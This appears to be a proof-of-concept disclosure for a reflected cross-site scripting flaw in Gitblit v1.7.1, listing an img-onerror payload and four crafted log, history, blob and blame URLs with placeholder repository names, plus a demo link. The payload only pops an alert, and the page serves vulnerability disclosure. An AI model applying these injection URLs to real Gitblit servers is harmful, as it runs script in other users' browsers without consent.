 Vulnerability: Reflected XSS via Path

In Gitblit v1.7.1, a reflected cross-site scripting (XSS) vulnerability exists in the way repository path names are handled. By injecting a specially crafted path payload—such as ```"%22><img src=a onerror=alert(1)>"``` an attacker can cause arbitrary JavaScript to execute when a victim views the manipulated URL. This flaw stems from insufficient input sanitization of filename elements.




Version: ```v1.7.1```


Authenticated: Yes, possibly unauthenticated

User: Admin




Payload: ```%22%3e%3cimg%20src%3da%20onerror%3dalert(1)%3e```

None of these will work for your instance.  You need to replace the repo names ```<REPLACE ME>``` with the exisiting ones.

```http://172.18.0.34/log/<REPLACE ME>.git/master%22%3e%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/history/<REPLACE ME>.git/mastery%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blob/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blame/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e?star=true```


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/gitblit-v1.7.1-reflected-XSS-via-filenames.gif?raw=true)

